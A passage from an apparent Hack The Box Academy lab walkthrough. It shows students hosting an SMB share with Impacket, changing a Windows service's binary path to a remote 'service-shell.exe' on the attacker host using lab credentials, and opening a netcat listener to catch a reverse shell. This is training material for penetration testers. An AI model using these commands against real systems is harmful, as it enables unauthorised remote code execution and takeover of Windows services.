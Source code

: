 Subsequently, students will initiate an SMB server using Impacket:

Code: shell

```shell
sudo impacket-smbserver share ./ -smb2support
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-yvuptgywyj]─[~]
└──╼ [★]$ sudo impacket-smbserver share ./ -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Students will proceed to open a new terminal tab and change the path to the ALG service to their workstations' IP using `impacket-services` script:

Code: shell

```shell
impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 change -name ALG -path "\\\\PWNIP\\share\\service-shell.exe"
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 change -name ALG -path "\\\\PWNIP\\share\\service-shell.exe"

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Changing service config for ALG
```

Subsequently, students will open a new terminal tab and start `netcat` on the port they have specified:

Code: shell

```shell
nc -nvlp PWNPO
```

```shell-session
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ nc -nvlp 9001

listening on [any] 9001 ...
```

Students will proceed to utilize `impacket-services` to start the `ALG` service:
